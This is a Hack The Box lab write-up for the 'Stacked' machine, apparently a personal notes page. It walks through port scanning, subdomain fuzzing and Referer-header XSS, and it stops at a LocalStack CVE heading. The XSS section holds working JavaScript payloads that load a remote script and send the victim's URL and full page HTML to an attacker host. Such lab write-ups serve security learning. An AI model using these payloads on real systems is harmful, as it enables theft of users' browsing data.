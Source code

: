 ```yaml
---
title: htb stacked
author: Yuchao
date: 2022-03-29 11:33:00 +0800
categories: [sec]
tags: [htb, aws, localstack]
math: true
mermaid: true
---
```


## recon

#### nmap
```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.112
nmap -p 22,80,2376 -sCV -oA scans/nmap-tcpscripts 10.10.11.112
```
- 22/tcp   open  ssh; 80/tcp   open  http; 2376/tcp open  docker

#### feroxbuster, directory discovery
``` feroxbuster -u http://stacked.htb ```

#### wfuzz, host discovery
``` wfuzz -H "Host: FUZZ.stacked.htb" -u http://stacked.htb -w /usr/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 26```
- hide word length 26 responses
- find host: portfolio.stacked.htb - TCP 80
- a local stack development page.
- <https://github.com/localstack/localstack>
- serverless: run services often used for Serverless apps (iam, lambda, dynamodb, apigateway, s3, sns)

## XSS

#### recon for XSS
- input area, and interesting headers.
- add payload as ``` <img src="http://{attackerIP}/fieldname_or_header_name"> ``` in different places.
- send the request.
attacker machine
``` sudo python3 -m http.server 80 ```
- 80 as we did not specify port in set payload
- wait a while
- ``` "GET /referer HTTP/1.1" 404 - ```
- so the ONLY field vulnerable to XSS is: Header -> referer.
- - run ``` date ``` two times, culculate the XSS victim(background cron) activity interval.
- interesting material below.
- <https://www.horizon3.ai/unauthenticated-xss-to-remote-code-execution-chain-in-mautic-3-2-4/>

#### find out what the URL the victim is looking at.

Method 1:
```javascript 
<script src="http://10.10.14.6/xss.js"></script> 
```
- in the victim`s referer, we can see the response is from: "/read-mail.php?id=5"

Method 2(Better):
```javascript
var exfilreq = new XMLHttpRequest();    
exfilreq.open("GET", "http://{attackerIP}/" + document.location, false);    
exfilreq.send(); 
```
- set above script as payload
- when we nc at 80, can see the victim`s current page appended.
- "GET /http://mail.stacked.htb/read-mail.php?id=2 HTTP/1.1"
- For victim will visit "http://{attackerIP}/http://mail.stacked.htb/read-mail.php?id=2"

We can even see content the victim is browsing by
```javascript
var exfilreq = new XMLHttpRequest();    
exfilreq.open("POST", "http://{attackerIP}:9001/", false);    
exfilreq.send(document.documentElement.outerHTML); 
```


## LocalStack vulnerability

#### CVE-2021-32090 
